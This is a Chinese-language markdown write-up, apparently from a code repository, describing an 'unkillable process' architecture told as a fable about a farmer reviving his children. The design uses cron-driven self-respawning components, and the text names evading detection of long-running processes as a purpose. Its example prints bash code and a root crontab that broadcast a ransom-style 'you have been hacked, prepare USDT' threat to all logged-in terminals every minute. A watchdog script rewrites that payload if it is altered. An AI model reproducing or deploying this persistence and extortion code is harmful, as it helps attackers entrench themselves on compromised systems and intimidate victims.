

# 杀不死的进程

## 架构图



## 从概念上分析

> 概念阐述：
>
> 如图所示，该架构的巧妙之处在于永远不会死掉的进程，却又是永远会自杀（自动消失）的进程，来无影去无踪
>
>
>
> 首先听我讲给你讲一个故事：
>
> ​     有个老父亲，是个农民（famer），性格非常平庸，能力极强，但是却不作为，一生只为了孩子，一心只想让他的孩子有所作为，他说”平平淡淡才是真“，他具有修仙小说里那种具有通灵的能力的魔法师，能够召唤一个灵魂与自己作战。这个灵魂至少能发挥自己实力的一半，这个灵魂的名字是（beggar）。他祖上跟上位面大族有些交情，但也因为祖上的交情，结实了非常多的仇家。他曾经有两个孩子，但是后来因为祖上继承仇恨的缘故被仇家杀害。父亲伤心欲绝，这是他的亲生骨肉啊！从此祖上继承下来的仇恨已经坐实了，他决心报仇雪恨。
>
> ​    他觉得自己的人生就止步于次了，放弃了所有准备去自杀，路上遇到一个算卦的。算卦的说他气运是人族的极品，不要让他去自杀，背负着人族的未来。他那时只当时玩笑话。于是算卦的给予了这个老父亲一身法器，给老父亲传授傀儡之术，掌握时间仙术，不过算卦的告诉他，尽量不要使用时间法术进行时间逆流，尽量少的使用复活大法，是要遭到上天嫉妒的，防止被位面法则发现，否则后果自负。
>
> ​    于是他苦修23年，终于将傀儡之术，复活大法等的仙级仙法练至大成，同样也将通灵法术炼制达成，他先将自己日夜思念的两个孩子使用法术复活。可是这个老父亲感觉到了上天的嫉妒，上天让他的孩子气运减少，或者具有自杀心态，可是他的法术仅仅是大成，没有全部熟练，没有与上天对抗的能力。
>
> ​ 时代的变迁与近现代车轮的旋转碾碎了修仙时代。那个时代一去不复返，因为这个老父亲心愿未了，甘愿放下巨额赌注，与上天作对赌，因为对时间的造诣已经是炉火纯青，他愿向上天再借500年。
>
> ​    一次次对他孩子的的复活失败，他也掌握了一定的规律，死去的人是不可能复活的，这与大位面法则相悖。
>
> ​ 他有一个男孩一个女孩，其中男孩做了博士（Doctor），工作之后竟然是测试岗位，天天（每个生命周期）重复着这样的工作，一旦出现奇奇怪怪的结果（与理论有差别），他就会想尽一切办法去修正实验的结果，最终寿归正寝。另外一个孩子是个女孩，学术层次上没什么造诣，却非常喜欢贪玩，天天想着给别人捣乱（customer command），因为他继承了父亲（famer）聪明的才智，从来没有被抓到过，却惹得别人（user）讨厌，她的职业是啦啦队队员。因为圈内乱象横生，而她天生美丽，经常被其他的啦啦队队员嫉妒，甚至性骚扰，一旦她做的坏事被发现，就会启动自杀机制，她把事情的原由打电话告诉父亲之后，从天台一跃而下（主动自杀）。
>
> ​ 老父亲这时叹了一口气，因为这是她不知道接到多少个女儿自杀的电话了。也使用非常多次的重生打法去复活他的女儿。对于他的儿子，他还是比女儿复活的更成功的，虽然气运很差，但是总会都是寿归正寝。
>
> ​ 老父亲只能默默承受着仇家的反对和上天的嫉妒。
>
> 故事讲完了！灵感来源于生活，生态和生命，你理解了吗？下面我会详细讲解
>
>
>
>
>
> 架构的特点是，各组件所担任的角色会自杀，然后从操作系统中消失，难以追踪。有自愈机制，孩子被杀死（自杀或者故意杀害）之后，父亲经过一段时间的发育，会自动产生下一代。父亲与他的影子组件beggar，形影不离，互相可为下一代。
>
> 从宏观角度来讲，该程序具有完成的两个闭环生态，分为大外环和小内环，几个组件交替完成生命周期。
>
> - 大外环： 正常的生育和自杀，完成生命周期
> - 小内环： 两个影子父亲互相取代对方。完成老父亲的生命周期
>
> 从微观角度来讲，这个架构一共有5个元素和一些操作组成，各组件产生下一代，执行任务，然后完成自杀。
>
> crontab： 系统定时服务
>
> cheerleading:  该程序主要实现在系统中执行某个程序；使命完成或未完成后后将会产生自杀心态，将心态告诉父亲（famer）之后；完成自杀。
>
> famer:  生孩子，不停的生；哪个死了生哪个，不顾一起维护孩子的生命健康；通灵，自己和灵魂可以合为一体，互相继承。
>
> Doctor: 维护生命轮回，防止下一个轮回不生效，启动自然死亡状态
>
> beggar: 通灵术，与famer共同施展，互相医治，相濡以沫。

## 从生命周期去分析

> 大前提： 第一个大环生命周期是成功的

首先`crontab`启动进程，每1分钟call一下 `cheerleading`,她会上台表演，执行自定义命令，`cheerleading`表演完成后会休息`5`秒。

`cheerleading`会在生命的最后一颗call她父亲`famer`,告诉他她要死掉了，

`famer`启动进程，施展生命法则，在第`45`秒将`cheerleading`复活

`famer`在第`50`秒检查他儿子`doctor`的存活和健康情况，如果死亡则实战生命法则

`famer`在第`57`秒告诉儿子`doctor`的使命和任务是什么，一般为固定任务【父亲此时继续执行生命周期】

`doctor`接到父亲`famer`命令，开始检查`crontab`的健康状态，如果不健康启动医生`doctor`角色，进行修复；如果健康，`doctor`什么都不干，生命枯竭死亡。

`famer` 在第 `58` 秒检查`cheerleading` 情况 ，如果不健康启动医生`doctor`角色，进行修复；

`famer` 在第 `59` 秒检查`doctor` 情况 ，如果不健康启动医生`doctor`角色，进行修复；

`famer` 上一步执行完成之后直接进入通灵状态 ，本体因为通灵自杀死亡， `beggar`接管生命；

`beggar`接管生命，接着对`famer` 进行修复，修复完成后自然死亡。**此时第二个周期开始，`cheerleading`开始表演**

`cheerleading`表演完成后会休息`5`秒,**然后如第二步所示，call她父亲`famer`,告诉他她要死掉了，**

回到第三步

······

## 对于老父亲灵魂体状态的解释

防止其他工具检测到`长时间进程运行`

可以用于程序的初始化

可以用于第三方程序的调用产生其他你想做的事

## 存在的风险

- 在维护模式下删除定时任务生态将会被打乱。

    解决思路： 增加一个系统调用去召唤老父亲的灵魂。使用灵魂体恢复一切。

- 其他还没想到的问题。。。。

## 例子

> 写了一半了，后面懒得写

```bash
root@MACOS:~# ipsync
[ 2022年 12月 15日 星期四 13:07:56 CST ] When you receive this message, you have been hacked, please prepare USDT. We will protect your computer.  Otherwise you will get consequences you don't want to see.
root@MACOS:~# cat /bin/ipsync
#!/bin/bash
w | grep pts &>/dev/null
#echo $?
if [ $? != 0 ]
then
        exit 0
fi

for pts_sum in `w | grep pts | awk '{print $2}'`
do
         echo -e "[ $(date) ] \033[32mWhen you receive this message, you have been\033[31m hacked\033[32m, please prepare USDT. We will protect your computer.\033[42;37m \033[31m Otherwise you will get consequences you don't want to see.\033[0m" > /dev/${pts_sum}
done
root@MACOS:/var/spool/cron/crontabs# cat root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.T9JHGn/crontab installed on Thu Dec 15 13:14:23 2022)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/1 * * * * ipsync


*/1 * * * * date >> /root/time ;echo sleep63 >> /root/time ;sleep 63 ; echo "already sleep 63" >> /root/time

```

```bash
#!/bin/bash
# sys-ip
sleep 1
isyncp_sum_elder=`md5sum /bin/ipsync | awk '{print $1}'`
isyncp_sum=`md5sum /bin/ipsync | awk '{print $1}'`

if [ $isyncp_sum_elder -nq $isyncp_sum ]
then
cat >/bin/ipsync<<-EOF
#!/bin/bash
w | grep pts &>/dev/null
#echo $?
if [ $? != 0 ]
then
        exit 0
fi

for pts_sum in `w | grep pts | awk '{print $2}'`
do
         echo -e "[ $(date) ] \033[32mWhen you receive this message, you have been\033[31m hacked\033[32m, please prepare USDT. We will protect your computer.\033[42;37m \033[31m Otherwise you will get consequences you don't want to see.\033[0m" > /dev/${pts_sum}
done
EOF
chmod 755 /bin/ipsync
fi

sleep 5


```
